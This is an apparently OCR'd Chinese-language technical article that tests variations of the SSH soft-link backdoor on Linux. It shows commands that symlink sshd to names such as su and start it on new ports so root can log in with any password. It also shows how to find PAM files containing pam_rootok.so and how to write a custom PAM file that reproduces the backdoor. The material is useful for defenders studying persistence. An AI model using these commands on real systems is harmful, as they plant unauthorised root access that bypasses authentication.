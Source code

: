 1.  不建立软链接，直接启动/usr/sbin/sshd是否可以任意密码登录？
	被控端：/usr/sbin/sshd –oPort=1212
	攻击端：ssh root@ip –p 1212

![Image](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RXiaic3hEvJiaWhK36LuLCevF0vn8jnkur5pgcSUSp5EpbQRopRvUK4udKORdvQmEneAQqGILar2AIMw/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

<font color="[[red]]"><b>连接失败</b></font>，因为默认使用/etc/pam.d/sshd的PAM配置文件，所以不能建立任意密码登录的后门。

2.  不允许PAM认证，对后门是否有影响？
	被控端：将/etc/ssh/sshd\_config文件中UsePAM的值改为no。

```
ln –sf /usr/sbin/sshd /tmp/su;/tmp/su –oPort=2222
```

![Image](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RXiaic3hEvJiaWhK36LuLCevF05a95ej6Jmibu7k8PibnXBIcyPdn8lTjadNaWV6lYIfy1g2lWqictH61Bw/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

![Image](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RXiaic3hEvJiaWhK36LuLCevF0Rpic0YY7k1wq5TgQU0G5qY26ZHSB6FSxpYHXkUVENRutu8EibHY8xFmA/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

<font color="red"><b>连接失败</b></font>，因为默认使用/etc/pam.d/sshd的PAM配置文件，所以不能建立任意密码登录的后门。

3.  软链接的路径、文件名是否对后门有影响?
	（1）改变链接的路径：

```
被控端：ln –sf /usr/sbin/sshd /tmp/su;/tmp/su –oPort=1234
```

![Image](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RXiaic3hEvJiaWhK36LuLCevF0GGAt2qnGpq5pJkDEwbRzYCUtWQnmlJe8qkEC31Qf9FlN9qQ5BRnKVw/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

<font color="green"><b>连接成功</b></font>，说明软链接的路径与后门功能无关联；

	（2）改变链接的文件名：

```
被控端：ln –sf /usr/sbin/sshd /usr/local/tmp; /usr/local/tmp –oPort=2345
```

![Image](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RXiaic3hEvJiaWhK36LuLCevF03bJfeZxmee9f2UFmnQ9FHU8puBvPbLS561SQEE3jiaSYX9fsbwLTjPw/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)
<font color="red"><b>连接失败</b></font>，说明软链接的文件名会影响后门功能。

     如果直接启动/usr/sbin/sshd，系统默认会使用/etc/pam.d/sshd目录中的PAM的配置文件，而通过建立软链接的方式，PAM认证实际上是通过软链接定义的文件名（如/usr/local/su）,在/etc/pam.d目录中去寻找对应的PAM配置文件（如/etc/pam.d/su）。

     任意密码登录的核心是suth sufficient pam_rootok.so配置，除了su文件可成功利用，/etc/pam.d目录中只要PAM配置文件中包含此项配置，就可以SSH任意密码登录（比如我的系统除了su还有chfn、chsh、runuser）。

```
find /etc/pam.d | xargs grep “pam_rootok.so”，查看包含此项配置的文件。
```

![Image](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RXiaic3hEvJiaWhK36LuLCevF07EJDj6wy2IbKTZ1nic54tib4PmFRPYRCWj9oRjLbPwNca83qOMs5szvw/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

或者不用系统原有的PAM配置文件，可以自己写一个。
**被控端：**
```
echo "auth sufficient pam_rootok.so" >> /etc/pam.d/chiyu
```
